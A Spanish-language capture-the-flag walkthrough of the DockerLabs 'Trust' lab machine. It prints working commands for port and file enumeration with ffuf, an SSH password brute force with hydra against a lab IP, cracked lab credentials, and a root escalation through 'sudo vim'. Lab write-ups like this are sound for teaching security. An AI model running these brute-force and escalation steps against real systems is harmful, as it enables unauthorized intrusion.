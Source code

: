 ```yaml
---
{"dg-publish":true,"permalink":"/dockerlabs/muy-facil/trust/","dgPassFrontmatter":true,"noteIcon":""}
---
```


![Pasted image 20250526085117.png](/img/user/Imagenes/Pasted%20image%2020250526085117.png)

Damos un nmap para escanear los puertos abiertos:

![Pasted image 20250526085149.png](/img/user/Imagenes/Pasted%20image%2020250526085149.png)

Puertos abiertos:
- 22
- 80

Ingresemos a la pagina web detras:

![Pasted image 20250526092052.png](/img/user/Imagenes/Pasted%20image%2020250526092052.png)

Probemos busqueda de directorios o busqeudas de archvivos:
1. Hago un dirsearch y no sale nada interesante
2. Utilizo ffuf para buscar archivos con diferentes extensiones.

```
ffuf -u http://172.18.0.2/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php,.bak,.txt,.html -mc 200
```

![Pasted image 20250526092229.png](/img/user/Imagenes/Pasted%20image%2020250526092229.png)

Tenemos un archiov secret.php ingresemos a ello:

![Pasted image 20250526092258.png](/img/user/Imagenes/Pasted%20image%2020250526092258.png)

Tenemos como usuario: **mario**

- Podemos intentar hacer hydra para buscar password para mario y loguearnos en el ssh:

```
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```

![Pasted image 20250526092402.png](/img/user/Imagenes/Pasted%20image%2020250526092402.png)

Credenciales: **mario:chocolate**

![Pasted image 20250526092451.png](/img/user/Imagenes/Pasted%20image%2020250526092451.png)

Ingresamos al ssh y probamos un **sudo -l**:

![Pasted image 20250526092548.png](/img/user/Imagenes/Pasted%20image%2020250526092548.png)
Obsevamos que tenemos obcion de ejcutar vim como super usuario sin serlo:

Para escalar privilegios podemos hacer lo siguiente:

```
sudo vim -c ':!/bin/sh'
```

![Pasted image 20250526092707.png](/img/user/Imagenes/Pasted%20image%2020250526092707.png)

Ya somo root.
Para mas informacion del comando tenemos la siguiente pagina: https://gtfobins.github.io/gtfobins/vim/

thanks.
